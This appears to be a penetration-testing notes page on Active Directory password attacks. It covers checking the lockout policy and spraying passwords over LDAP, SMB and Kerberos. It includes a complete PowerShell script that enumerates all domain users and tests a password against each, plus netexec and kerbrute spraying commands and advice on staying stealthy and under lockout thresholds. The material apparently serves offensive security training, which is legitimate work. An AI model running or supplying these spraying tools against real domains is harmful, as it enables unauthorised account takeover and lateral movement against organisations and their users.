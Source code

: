 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Passwords

Before attempting any password attacks, check the domain's **account lockout policy** to avoid locking out accounts or triggering alerts.

```powershell
# List the account policy
> net accounts
...
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
...
```

Based on the above policy, we can safely try **4 login attempts per user every 30 minutes**. This allows up to **192 attempts/user/day**.

> _Tools like_ [_`netexec`_](../../../tools/active-directory/netexec-cme.md#password-policy) _can be used to enumerate the domain's account lockout policy._

## Password Spraying

### LDAP-Based

This method leverages LDAP binding via PowerShell’s `.NET` libraries. It attempts authentication by trying to create an LDAP object — if it succeeds, the credentials are valid. This method is **stealthy**, no interactive log in, and **respects lockout policy**, but is **slow** and **limited to one password per run**.

{% code overflow="wrap" %}
```powershell
# Get the domain and PDC
$domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domain.PdcRoleOwner.Name
# Construct the LDAP path
$ldap = "LDAP://$PDC/DC=" + $domain.Name.Replace('.', ',DC=')
# Attempt authentication
$entry = New-Object System.DirectoryServices.DirectoryEntry($ldap, "pete", "Nexus123!")
$entry.distinguishedName  # Triggers authentication
```
{% endcode %}

If the password is invalid, it throws an error. If valid, it returns the DN. We can automate this with the following script which loops through AD users and reports valid logins.

{% code title="LDAPSpray.ps1" overflow="wrap" %}
```powershell
param(
    [string]$Password = "Nexus123!",
    [string]$Domain = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).Name
)

Write-Host "[*] Starting LDAP password spray for domain: $Domain"
$PDC = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner).Name
$LDAP = "LDAP://$PDC/DC=" + $Domain.Replace('.', ',DC=')

# Get all users from AD
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(objectCategory=person)"
$Searcher.PageSize = 1000
$Searcher.PropertiesToLoad.Add("sAMAccountName") > $null
$Users = $Searcher.FindAll() | ForEach-Object { $_.Properties.samaccountname }

foreach ($User in $Users) {
    if ([string]::IsNullOrWhiteSpace($User)) { continue }

    try {
        $Entry = New-Object System.DirectoryServices.DirectoryEntry($LDAP, $User, $Password)
        $null = $Entry.distinguishedName  # Force bind/authentication
        Write-Host "[+] VALID: $User : $Password"
    } catch {
        Write-Host "[-] INVALID: $User"
    }
}

```
{% endcode %}

```powershell
> .\LDAPSpray.ps1 -Password "Nexus123!"
```

### SMB-Based

This method involves a full SMB session setup/teardown on each authentication attempt so it's **slow**, **noisy**, and **does not respect the lockout policy**. We can perform this attack using tools like [`netexec`](../../../tools/active-directory/netexec-cme.md#password-spray).

> _With `netxec`, if a sprayed password is valid_ _and the user is a `local administrator` on the target system, the `(Pwn3d!)` string will appear. This means that tools like `psexec`, `wmiexec`, or `secretsdump` can be used for lateral movement or privilege escalation._

### Kerberos-Based

This method uses Kerberos AS-REQs to test credentials. It's **lightweight** (no full session required) and **fast** (only two UDP packets per attempt: AS-REQ, AS REP/error). This attack can be performed with tools like `kerbrute`.&#x20;

```bash
kerbrute passwordspray -d corp.com usernames.txt "Nexus123!"
```

Valid logins return a TGT (AS-REP); invalid ones return a fast error. Use ANSI encoding in your input files to avoid weird issues.

### Method Comparison

| Protocol | Noise | Lockout-Safe | Speed     | Notes                              |
| -------- | ----- | ------------ | --------- | ---------------------------------- |
| LDAP     | Low   | ✅ Yes        | Medium    | Scriptable, stealthy               |
| SMB      | High  | ❌ No         | Slow      | Reveals admin access (`Pwn3d!`)    |
| Kerberos | Low   | ❌ No         | Very Fast | UDP-based, great for fast spraying |
